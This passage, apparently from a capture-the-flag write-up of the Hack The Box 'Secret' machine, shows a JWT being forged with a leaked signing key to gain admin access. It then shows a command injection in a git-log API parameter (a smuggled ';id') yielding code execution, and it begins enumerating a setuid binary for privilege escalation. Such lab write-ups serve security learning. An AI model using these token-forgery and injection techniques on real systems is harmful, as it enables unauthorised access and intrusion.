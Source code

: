 ![](_/htb-secret-20250417-2.png)

```console
$ jwt -alg HS256 -sign + -key <(echo -n "$KEY") -claim _id=6114654d77f9a54e00f05777 -claim name=theadmin -claim email=root@dasith.works -claim role=admin
eyJhbGceyJfaWQiOiI2M...
```

That one worked:

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 76
ETag: W/"4c-bXqVw5XMe5cDkw3W1LdgPWPYQt0"
Date: Thu, 17 Apr 2025 21:26:11 GMT
Connection: keep-alive

{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```

Browsing the Git repo, I found an endpoint called `/api/logs` which accepts a `file` parameter via `GET` and runs `git log --oneline <file>`. A simple command injection worked for RCE:

```console
$ curl -H "auth-token: $TOK" http://secret.htb:3000/api/logs?file=foo%3bid
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```

## Privilege Escalation

There is a *setuid* binary and other interesting information:

```console
dasith@secret:/opt$ ls -la /opt
total 56
drwxr-xr-x  2 root root  4096 Oct  7  2021 .
drwxr-xr-x 20 root root  4096 Oct  7  2021 ..
-rw-r--r--  1 root root 16384 Oct  7  2021 .code.c.swp
-rw-r--r--  1 root root  3736 Oct  7  2021 code.c
-rwsr-xr-x  1 root root 17824 Oct  7  2021 count
-rw-r--r--  1 root root  4622 Oct  7  2021 valgrind.log

dasith@secret:~$ file /opt/count
/opt/count: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=615b7e12374cd1932161a6a9d9a737a63c7be09a, for GNU/Linux 3.2.0, not stripped
dasith@secret:~$ /opt/count
Enter source file/directory name: /tmp
drwx------      systemd-private-3bd0c9d821e6447692eca913abad8579-systemd-logind.service-ZZYWnh
drwxrwxrwx      .ICE-unix
drwxr-xr-x      ..
drwx------      vmware-root_726-2957583432
drwx------      systemd-private-3bd0c9d821e6447692eca913abad8579-systemd-timesyncd.service-PvjHWg
drwxrwxrwx      .Test-unix
drwx------      systemd-private-3bd0c9d821e6447692eca913abad8579-systemd-resolved.service-ixmsog
drwx------      snap.lxd
drwxrwxrwx      .font-unix
```